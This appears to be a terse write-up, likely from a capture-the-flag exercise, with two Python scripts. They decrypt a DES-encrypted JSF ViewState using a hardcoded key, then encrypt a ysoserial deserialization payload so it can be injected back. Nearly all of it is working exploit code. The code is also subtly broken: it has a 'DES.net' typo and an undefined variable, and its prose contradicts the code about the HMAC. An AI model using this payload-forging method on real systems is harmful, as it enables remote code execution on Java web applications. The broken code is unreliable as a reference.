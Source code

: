 <https://pycryptodome.readthedocs.io/en/latest/src/cipher/des.html?highlight=decrypt%20des>

```
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import sys
key = b'JsF9876-' # key for for the des encryptions, and SHA hash
cryptext = b'wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RcVjhMDN4sZB70KtDtngjDm0mNzA9qHjYerxo0jW7zu11SwN/t3lVW5GSeZ1PEA3OZ3jFUE='
# the cipher used to decrypt & mode
cipher = DES.net(key, DES.MODE_ECB)
b64 = base64.b64decode(cryptext)
#takes the first 72 bytes of the 92 byte decoded string. hmac takes 20 bytes
# data first 72 bytes the hmac 20bytes so minus the total bityes by 20 to get the data 
# saved both as variables
des = cipher.decrypt(b64[:72])
phac = (b64[-20:])
print(phac)
deslen = len(des)
phaclen = len(phac)
print (phaclen)
print 'decrypted des = ' + (des)
print 'des length = ' + str(deslen)
```

encryptions

encryption need to pad because everything already padded during decryptions seems obivious. then add the padding to cryptext then encrypt that with des and make a hash out of the des encryption. 

```
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import sys
key = b'JsF9876-'
cipher = DES.new(key, DES.MODE_ECB)
cryptext = b'wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RcVjhMDN4sZB70KtDtngjDm0mNzA9qHjYerxo0jW7zu11SwN/t3lVW5GSeZ1PEA3OZ3jFUE='

des = cipher.decrypt(b64[:72])
phac = (b64[-20:])


with open('joker.ysoserial', 'r') as myfile:
    payload = myfile.read()
    payload = base64.b64decode(payload)
pad = 8 - len(payload) % 8
padding = chr(pad) * pad
payload += padding
enpay = cipher.encrypt(payload)
enpay += phac
en64pay = base64.b64encode(enpay)
print 'payload = ' + (en64pay)
```

